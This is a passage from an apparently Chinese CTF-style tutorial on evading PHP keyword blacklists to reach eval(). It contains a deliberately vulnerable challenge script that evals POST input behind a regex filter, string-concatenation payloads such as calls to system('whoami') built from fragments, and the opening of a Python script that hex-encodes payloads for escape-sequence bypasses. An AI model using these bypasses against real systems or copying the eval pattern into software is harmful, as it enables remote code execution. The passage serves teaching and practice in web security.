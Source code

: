 - `array_filter()`：用回调函数过滤数组中的单元
依次将array数组中的每个值传递到callback函数，如果callback函数返回true，则array数组的当前值会被包含在返回的结果数组中，数组的键名保留不变

```php
array_filter ( array $array [, callable $callback [, int $flag = 0 ]] ) : array
```
- `usort()`：使用用户自定义的比较函数对数组中的值进行排序
本函数将用用户自定义的比较函数对一个数组中的值进行排序，如果要排序的数组需要用一种不寻常的标准进行排序，那么应该使用此函数

```php
usort ( array &$array , callable $value_compare_func ) : bool
```
# 字符串拼接绕过
>字符串拼接绕过适用于绕过过滤具体关键字的限制
适用PHP版本：PHP>=7

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
$cmd = $_POST['cmd'];
if (isset($cmd)) {
    if (preg_match('/phpinfo|system/i', $cmd)) {
        die('Hacker!!!Fuck_you!!!');
    }else {
        eval($cmd);
    }
}else {
    echo "Welcome!!!";
}
?>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602153035107.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

```
Payload：

(p.h.p.i.n.f.o)();
(sy.(st).em)(whoami);
(sy.(st).em)(who.ami);
(s.y.s.t.e.m)("whoami");
.......
```
# 字符串转义绕过
适用PHP版本：PHP>=7

- 以八进制表示的`\[0–7]{1,3}`转义字符会自动适配byte（如"\400" == “\000”）
- 以十六进制的`\x[0–9A-Fa-f]{1,2}`转义字符表示法（如“\x41"）
- 以Unicode表示的`\u{[0–9A-Fa-f]+}`字符，会输出为UTF-8字符串
>`注意这里转义后的字符必须双引号包裹传参`

```python
处理脚本：

# -*- coding:utf-8 -*-
def hex_payload(payload):
	res_payload = ''
	for i in payload:
		i = "\\x" + hex(ord(i))[2:]
		res_payload += i
	print("[+]'{}' Convert to hex: \"{}\"".format(payload,res_payload))

def oct_payload(payload):
	res_payload = ""
```